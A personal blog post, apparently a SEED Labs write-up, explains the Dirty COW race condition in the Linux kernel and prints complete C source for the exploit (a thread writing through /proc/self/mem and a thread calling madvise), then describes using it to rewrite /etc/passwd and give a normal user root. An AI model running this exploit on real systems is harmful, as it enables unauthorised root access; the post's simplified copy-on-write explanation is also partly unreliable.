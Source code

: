 ```yaml
---
layout: post
title:  "Dirty Cow Vulnerability: An analysis"
date:   2023-01-10 15:49:04 +0200
categories: security
---
```


## This is an analysis of the [Dirty Cow Vulnerability](https://en.wikipedia.org/wiki/Dirty_COW) using a VM provided by [SEED Labs](https://seedsecuritylabs.org/Labs_20.04/Software/Dirty_COW/).

Dirty COW stands for Dirty copy-on-write. I actually found this out while doing my research for this exercise. I've read about the vulnerability previously, but I didn't have hands on experience with it, or understand it in depth. So, I will be trying to do that in this blog post, and hopefully it's simple enough that you understand it too.

The Dirty COW vulnerability is a very interesting case of a race condition vulnerability. It existed in the Linux kernel since 2007 and was discovered in 2016, and because the kernel runs as root, it can be exploited as a priviledge escalation vulnerability. This means attackers can gain root priviledges by exploiting it, from a low-level user.

### What is a race condition? 

A `race condition` can arise in software when a computer program has multiple code paths that are executing concurrently. If the multiple code paths take a different amount of time than expected, they can finish in a different order than expected, which can cause software bugs due to unanticipated behavior.

### Here's how I understood it:

Let's say you have a variable/object/resource `a`:

    a = "DIRTY"

but you also have another variable `b`:

    b = a

Even though these  are two variables here, they both point to the same memory object, since there is no need to take up twice the amount of memory for identical values. The OS will wait until the duplicate is modified, that is when it will allocate seperate memory for the other variable. 

You modify b:

    b += "COW"

At this point, here is what the kernel will do:

1. allocate memory for the new modified variable
2. read the original contents of the object being duplicated
3. perform any required changes to it i.e., append "COW"
4. write modified contents into the newly allocated memory space

The race condition exists between steps 2 and 4, which tricks the memory mapper into writing the modified contents into the original memory space instead of the newly allocated space. This is such that we end up modifying memory belonging to `a` i.e., the original object instead of `b`, even if we only had read-only privileges on `a`. The race condition allows the attacker to bypass these permissions. 

It is obviously more complicated, I'd like to think, but here is a [video](https://www.youtube.com/watch?v=CQcgz43MEZg) that might help you understand.

### Let's get into the lab

I fired up the VM,and of course I was bombarded with alerts to upgrade to a later version. We won't be doing that for now. 

The objective in this lab is to write to a read-only file using the Dirty Cow vulnerability.

I'll start by creating a file as sudo, adding some text to it and modifying the privileges so that I only have read privileges to read the file. 

![dirtycow0](images/dirtycow/dirtycow0.png)

With a readable file ready, the next step is to edit the exploit. This exploit is made up of three threads: the main thread, the write thread and the madvise thread. The main thread maps our file to memory, finds where the pattern we want to replace is, and then creates two threads to exploit the Dirty COW race condition vulnerability in the OS kernel.

    #include <sys/mman.h>
    #include <fcntl.h>
    #include <pthread.h>
    #include <sys/stat.h>
    #include <string.h>

    void *map;
    void *writeThread(void *arg);
    void *madviseThread(void *arg);

    int main(int argc, char *argv[])
    {
        pthread_t pth1,pth2;
        struct stat st;
        int file_size;

        // Open the target file in the read-only mode.
        int f=open("dirtycow", O_RDONLY);

        // Map the file to COW memory using MAP_PRIVATE.
        fstat(f, &st);
        file_size = st.st_size;
        map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

        // Find the position of the target area
        char *position = strstr(map,"cow");                        

        // We have to do the attack using two threads.
        pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
        pthread_create(&pth2, NULL, writeThread, position);             

        // Wait for the threads to finish.
        pthread_join(pth1, NULL);
        pthread_join(pth2, NULL);
        return 0;
    }


![dirtycow1](images/dirtycow/dirtycow1.png)

![dirtycow2](images/dirtycow/dirtycow2.png)

So first we are opening our file(note that is is being opened in read-only mode) and using the string function called `strstr` we are searching where `cow` is in the mapped memory, then we start two threads, writeThread and madviseThread.

The job of the writeThread is to replace the `cow` string with `wow`(or whatever we want to write). Since the mapped memory is of copy-on-write type, this thread alone will only be able to modify the contents in a copy of the mapped memory, which will not cause any change to the underlying `dirtycow` file.

    void *writeThread(void *arg)
    {
        char *content= "wow";
        off_t offset = (off_t) arg;

        int f=open("/proc/self/mem", O_RDWR);
        while(1) {
            // Move the file pointer to the corresponding position.
            lseek(f, offset, SEEK_SET);
            // Write to the memory.
            write(f, content, strlen(content));
        }
    }   


![dirtycow3](images/dirtycow/dirtycow3.png)


The madvise thread does only one thing: discarding the private copy of the mapped memory, so the page table can point back to the original mapped memory.

If the write() and the madvise() system calls are invoked alternatively, i.e., one is invoked only after the other is finished, the write operation will always be performed on the private copy, and we will never be able to modify the target file. The only way for the attack to succeed is to perform the madvise() system call while the write() system call is still running. We cannot always achieve that, so we need to try many times. As long as the probability is not extremely low, we have a chance. That is why in the threads, we run the two system calls in an infinite loop.

    void *madviseThread(void *arg)
    {
        int file_size = (int) arg;
        while(1){
            madvise(map, file_size, MADV_DONTNEED);
        }
    }

Okay. Exploit is ready. Let's compile and execute. 

![dirtycow4](images/dirtycow/dirtycow4.png)

And we managed to write to the file. Now this is a very simple example to prove the concept. We can apply this to write to importantfiles in the Unix OS such as the `passwd` file. This allows us to change the privilieges that a normal user has, and upgrading them to a root user. See below.

We use sudo to create a user.

![dirtycow5](images/dirtycow/dirtycow5.png)

See the UID is 1001, meaning `elliot` is just a normal user.

![dirtycow6](images/dirtycow/dirtycow6.png)

We modify our exploit and run.

![dirtycow7](images/dirtycow/dirtycow7.png)

We managed to replace the `elliot:x:1001` with `elliot:x:0000`, moving elliot into the root group, hence giving him root privileges.

![dirtycow9](images/dirtycow/dirtycow9.png)

There are a lot of use cases for this. Imagine an attacker modifies only the `1001` UID section to `0000`, making all users root users. Overall, a super simple and easy to understand exploit.

I really enjoyed going in-depth to try and understand this vulnerability. Again, I oversimplified so I can understand it, (and you too)but the kernel has a lot of layers to it.

Cheers!


